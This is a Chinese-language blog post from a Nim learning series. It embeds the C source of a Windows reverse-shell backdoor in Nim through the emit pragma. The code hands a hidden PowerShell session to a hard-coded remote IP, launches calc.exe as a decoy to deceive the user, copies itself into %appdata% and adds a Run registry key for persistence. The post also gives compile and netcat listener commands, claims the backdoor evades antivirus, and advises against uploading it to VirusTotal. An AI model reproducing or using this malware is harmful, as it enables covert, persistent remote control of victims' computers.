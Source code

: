 # nim 嵌入C 代码（nim学习系列）

假设手头上有一份现成的 C 代码，比如 [PersistentCReverseShell](https://github.com/1captainnemo1/PersistentCReverseShell) ，这是一个用 C 语言实现的 windows 反弹 shell 后门，请不要上传到 www.virustotal.com 进行扫描。如何快速利用这段代码呢，好在 nim 提供了 [Emit pragma](https://nim-lang.org/docs/manual.html#implementation-specific-pragmas-emit-pragma) ，让我们可以直接在 nim 中嵌入 C 代码。

PersistentCReverseShell 的介绍：  

> * 用 C 语言实现
> * 支持任意 windows 发行版
> * 通过注册表实现自启动
> * 反弹 powershell 至远程服务器
> * 在前台打开一个诱饵应用程序（calc.exe）以欺骗用户
> * 作者说可免杀 98% 的杀毒软件（本地测试 Windows defender 和 Avast 通过）

### 源代码 reverse.nim

编译命令：nim c -d:release --opt:size --passL:-lws2_32 reverse.nim  

可根据需要修改IP地址和端口号。

``` reverse.nim
#[
    Author: StudyCat
    Blog: https://www.cnblogs.com/studycat
    Github: https://github.com/StudyCat404/myNimExamples
    License: BSD 3-Clause
    Referer: https://github.com/1captainnemo1/PersistentCReverseShell
]#
#import os, strutils

when not defined(c):
    {.error: "Must be compiled in c mode"}

{.emit: """
// AUTHOR : #Captain_Nemo
#include <stdio.h>
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdlib.h>

#pragma comment(lib, "Ws2_32.lib")
#define DEF_BUFF 2048

void rsh(char* server, int Port) 
{
    while(1) 
  {
     

     WSADATA wsaData;
     SOCKET Winsock;
     struct sockaddr_in address;
     char Rec_dat[DEF_BUFF];
     STARTUPINFO process_startup;
     PROCESS_INFORMATION p_info;
  
	WSAStartup(MAKEWORD(2,2), &wsaData);
	Winsock=WSASocket(AF_INET,SOCK_STREAM,IPPROTO_TCP,NULL,(unsigned int)NULL,(unsigned int)NULL);

    
	address.sin_family = AF_INET;
	address.sin_port = htons(Port);
	address.sin_addr.s_addr =inet_addr(server);
    
	WSAConnect(Winsock,(SOCKADDR*)&address, sizeof(address),NULL,NULL,NULL,NULL);
	if (WSAGetLastError() == 0) 
        {

		memset(&process_startup, 0, sizeof(process_startup));
                //char proc[] = "cmd.exe";
                char proc[] = "powershell.exe -WindowStyle Hidden";
		process_startup.cb=sizeof(process_startup);
		process_startup.dwFlags=STARTF_USESTDHANDLES;
		process_startup.hStdInput = process_startup.hStdOutput = process_startup.hStdError = (HANDLE)Winsock;
		CreateProcess(NULL, proc, NULL, NULL, TRUE, 0, NULL, NULL, &process_startup, &p_info);
               // WaitForSingleObject(p_info.hProcess, INFINITE);
               // CloseHandle(p_info.hProcess);
               // CloseHandle(p_info.hThread);
                //memset(Rec_dat, 0, sizeof(Rec_dat));
                //int Rec_code = recv(Winsock, Rec_dat, DEF_BUFF, 0);
               // if (Rec_code <= 0) 
               // {
                 //   closesocket(Winsock);
                  //  WSACleanup();
                  //  continue;
               // } // end if 
               // if (strcmp(Rec_dat, "exit\n") == 0) 
                //{
                    exit(0);
                } // end if
		exit(0);
      } // end while 
   } // end function rsh 
//int PersistentCReverseShell(char *h, int p) 
int PersistentCReverseShell() 
 {
        char h[] = "172.20.10.4";
        int p = 8080;
        system("start C:\\WINDOWS\\System32\\calc.exe"); // fire decoy
        system("cmd /c copy .\\reverse.exe %appdata%");  // copy malware to appdata
        system("cmd /c REG ADD HKCU\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run /V \"Secure\" /t REG_SZ /F /D \"%appdata%\\reverse.exe"); //add registry persistence 
        rsh(h, p);   // call rsh function
        return 0;
 } // end main 
""".}
#proc PersistentCReverseShell(ip: cstring, port: int): int
proc PersistentCReverseShell(): int
    {.importc: "PersistentCReverseShell", nodecl.}
    
when isMainModule:
    discard PersistentCReverseShell()
    #discard PersistentCReverseShell(paramStr(1), parseInt(paramStr(2)))
```



### 本地测试

kali 使用 netcat 监听 8080端口：  

nc -vv -l -p 8080

然后执行编译成功的 reverse.exe 即可。关闭 calc.exe 反弹的shell 也不会中断，因为这是两个不同的进程。

![截图1](https://files-cdn.cnblogs.com/files/StudyCat/PersistentCReverseShell01.bmp)
